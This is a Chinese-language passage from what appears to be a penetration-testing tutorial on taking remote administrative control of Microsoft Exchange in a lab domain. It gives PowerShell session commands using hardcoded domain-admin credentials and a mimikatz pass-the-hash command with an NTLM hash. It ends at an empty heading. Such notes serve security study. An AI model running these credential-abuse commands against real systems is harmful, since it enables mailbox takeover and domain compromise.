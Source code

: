#### 已有高权限域账号

通常创建 Exchange 的那个域账号会被加入 Exchange Organization Administrators 或 Organization Management 组（不同版本组名不同），如果拿到该组成员的凭证，可以使用 /PowerShell 接口对 Exchange 进行远程管理。
```bash
# 设置明文凭证并连接
$User = "island.com\enterprise_admin"
$Pass = ConvertTo-SecureString -AsPlainText EA@123qwe -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri https://win2012-ex2016.island.com/PowerShell -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber

# 测试是否成功
Get-Mailbox

# 删除连接
Remove-PSSession $Session
```

如果没有明文密码，只有 Hash，可以用 mimikatz pth。
```
mimikatz.exe privilege::debug "sekurlsa::pth /user:enterprise_admin /domain:island.com /ntlm:d81a42dfacbaf5e346eb9a072773309d /run:powershell" exit
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri https://win2012-ex2016.island.com/PowerShell
Import-PSSession $Session -AllowClobber
最好域内操作，走代理可能报错。
```

#### 已有 Exchange 服务器权限

拿到服务器权限后，有两种方式对 Exchange 进行管理。

1. 通过 Exchange Management Shell 进行管理

    这是一个封装好的 .ps 脚本，其原理也是使用 /PowerShell 接口对 Exchange 进行远程管理，默认使用当前凭证创建 PSSession。

2. 打开 Powershell 加载网络管理单元，不同版本 Exchange 加载语句不同：
    ```bash
    # Exchange 2007
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;

    # Exchange 2010
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;

    # Exchange 2013 & 2016
    Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;
    ```

#### 语法所需权限
